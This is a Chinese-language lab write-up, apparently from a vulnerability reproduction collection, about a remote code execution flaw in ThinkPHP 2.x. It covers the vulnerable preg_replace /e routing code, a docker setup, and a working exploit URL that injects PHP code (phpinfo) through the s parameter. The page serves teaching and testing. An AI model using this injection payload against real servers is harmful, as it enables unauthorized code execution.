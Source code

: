 # ThinkPHP 2.x 任意代码执行漏洞

ThinkPHP是一个在中国被广泛使用的PHP框架。ThinkPHP 2.x版本中存在一个远程代码执行漏洞。

在ThinkPHP 2.x版本中，框架使用`preg_replace`的`/e`模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

这个实现导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。值得注意的是，ThinkPHP 3.0版本在Lite模式下也存在这个漏洞，因为这个问题在该模式下并未被修复。

## 环境搭建

执行如下命令启动ThinkPHP 2.1的Demo应用：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/Index/Index`即可查看到默认页面。

## 漏洞复现

通过URL参数注入PHP代码来利用此漏洞。直接访问`http://your-ip:8080/index.php?s=/index/index/name/${@phpinfo()}`，服务器将执行`phpinfo()`函数，证明远程代码执行漏洞利用成功：

![](1.png)
